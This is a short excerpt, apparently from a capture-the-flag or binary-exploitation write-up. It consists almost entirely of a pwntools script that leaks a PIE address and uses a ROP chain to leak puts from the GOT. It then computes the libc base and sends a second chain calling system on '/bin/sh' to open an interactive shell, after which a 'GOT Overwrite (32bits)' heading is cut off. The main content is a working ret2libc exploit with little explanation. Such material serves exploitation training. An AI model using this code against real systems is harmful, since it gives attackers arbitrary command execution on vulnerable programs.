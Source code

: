 ```
io.recvuntil(b'Hello ')
r = io.recvline()

main_addr = int(r[:-1], 16)
info("Leaked <main>: %#x" % main_addr)
elf.address = main_addr - 0x11f8
info("Base Addr: %#x" % elf.address)


pop_rdi_offset = 0x12ab
pop_rdi = elf.address + pop_rdi_offset
padding = 264

payload = flat(
    padding * b'A',
    pop_rdi,
    elf.got.puts,
    elf.plt.puts,
    elf.symbols.vuln
)

io.sendlineafter(b':P', payload)

print(io.recvlines(2))
got_puts = unpack(io.recvline()[:6].ljust(8,b"\x00"))
info("GOT puts: %#x", got_puts)
libc_base = got_puts - 0x0805a0
info("LIBC: %#x", libc_base)
system = libc_base + 0x053110
exit = libc_base + 0x42340
sh = libc_base + 0x1a7ea4

ret_offset = 0x1016
ret = elf.address + ret_offset

payload = flat(
    padding * b'A',
    ret,
    pop_rdi,
    sh,
    system,
    exit
)

io.sendline(payload)
io.interactive()
```

# GOT Overwrite (32bits)
